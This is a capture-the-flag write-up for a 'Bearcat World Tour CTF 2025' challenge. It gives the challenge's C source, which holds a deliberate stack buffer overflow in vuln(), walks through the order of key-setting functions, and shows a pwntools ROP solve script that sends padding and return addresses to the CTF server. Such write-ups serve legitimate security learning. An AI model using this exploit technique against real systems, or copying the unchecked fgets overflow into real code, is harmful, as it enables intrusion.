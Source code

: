 When I competed in Bearcat World Tour CTF 2025 I came across this challenge towards the end of the ctf. This challenge provide the full C source code conveniently (although it was absolutely not necessary to complete this challenge).

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>


void store_a_charstar();
void menu();
void vuln();
void store_floats();
int key1 = 0;
int key2 = 0;
int key3 = 0;
int floatcount = 0;

void setup() {
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
}

int main(int argc, char **argv) {
    setup();
    menu();
    vuln();
}

void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}

void menu() {
    puts("Try out this new calling convention!");
    puts("Instead of calling functions directly, you just return to them instead!");
    printf(" > ");
}

void vuln() {
    fflush(stdout);
    char s[8];
	fgets(s, 0x200, stdin);
}
```

This challenge immediately looks pretty straightforward, the vulnerablility is even labled. Simply pass 12 bytes to overflow 's' then the memory location of win(). 

However, the win function checks three keys which are checked before reading the flag. This means we will have to build a very simple ROP chain to set the keys to their expected values before calling the win function. Luckly, this is about as easy as any ROP challenge gets as we just need to figure out what functions need to be run and place their memory addresses after the overflow sequentially. 

```C
void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);

}
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}
```

Looking at these three functions we see that we need to set key3 first so that we are able to set key1 which is required to set key 2. Then key3 needs to be set again as it is set to 0 while setting key2. The functions need to be called in the following order.

```C
number3();
set_key1();
ahhhhhhhh();
food();
number3();
win();
```

After going into ghidra to check the offsets of each of these functions my solve script looked something like this:
```python
from pwn import remote
from pwn import *
# Define the offsets for the keys
win = 0x004012f3
key3 = 0x00401404
key1 = 0x00401397
key2_1 = 0x004013b6
key2_2 = 0x004013e8
def run(conn, payload: bytes):
    conn.sendlineafter("> ", payload)  # Send the payload
    response = conn.recv(1024)  # Read output of remote
    print(response.decode())
    
def solvefunction():
    # Create the payload with the necessary sequence of offsets (keys)
    # Use p64 to pack the addresses as 64-bit little-endian values
    solution = b'A' * 12 + p64(key3) + p64(key1) + p64(key2_1) + p64(key2_2) + p64(key3) + p64(win)
    return solution

# Connect to the remote service
conn = remote("chal.bearcatctf.io", 39440)
payload = solvefunction()
run(conn, payload)
 
conn.interactive()
```
This produced the flag for a quick 500 point solve. 